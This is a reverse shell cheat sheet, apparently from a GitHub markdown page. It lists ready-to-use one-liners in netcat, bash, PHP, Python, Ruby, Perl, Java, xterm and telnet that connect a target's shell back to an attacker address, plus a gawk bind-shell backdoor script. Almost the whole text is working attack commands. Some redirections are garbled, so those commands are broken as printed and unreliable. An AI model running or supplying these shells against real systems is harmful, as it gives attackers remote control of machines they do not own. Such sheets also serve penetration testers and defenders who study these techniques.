 # Reverse Shell Cheat Sheet

## Netcat Reverse Shells

> - **nc -e /bin/sh 10.0.0.1 1234**
>
> - **/bin/sh | nc ATTACKING-IP 80**
>
> - **rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p**
>
> If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
>
> - **rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f**

## Bash Reverse Shells

> - **exec /bin/bash 0&0 2>&0**
>
> - **0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196**
>
> - **exec 5<>/dev/tcp/ATTACKING-IP/80**
>
>   **cat <&5 | while read line; do $line 2>&5 >&5; done**
>
> **or**
>
> - **while read line 0<&5; do $line 2>&5 >&5; done**
>
>
> - **bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1**

## PHP Reverse Shells

> - **php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'** <br>
      (Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
 
## PYTHON Reverse Shells

> - **python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'**

## RUBY Reverse Shells

> - **ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'**

## PERL Reverse Shells

> - **perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'**
>
> ### PERL Windows Reverse Shell
>
> - perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;' <br>
>
> - perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## JAVA Reverse Shells

> - **r = Runtime.getRuntime() <br>
> p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) <br>
> p.waitFor()**

## xterm Reverse Shells

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

> - **xterm -display 10.0.0.1:1**

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

> - **Xnest :1**

You’ll need to authorise the target to connect to you (command also run on your host):

> - **xhost +targetip**

## TELNET Reverse Shells

> - rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
>
> - telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443

## GAWK Reverse Shells

>  #!/usr/bin/gawk -f
>
> BEGIN { <br>
>        Port    =       8080 <br>
>        Prompt  =       "bkd> " <br>
>
>        Service = "/inet/tcp/" Port "/0/0" <br>
>        while (1) { <br>
>                do { <br>
>                        printf Prompt |& Service <br>
>                        Service |& getline cmd <br>
>                        if (cmd) { <br>
>                                while ((cmd |& getline) > 0) <br>
>                                        print $0 |& Service <br>
>                                close(cmd) <br>
>                        } <br>
>                } while (cmd != "exit") <br>
>                close(Service) <br>
>        } 
> }
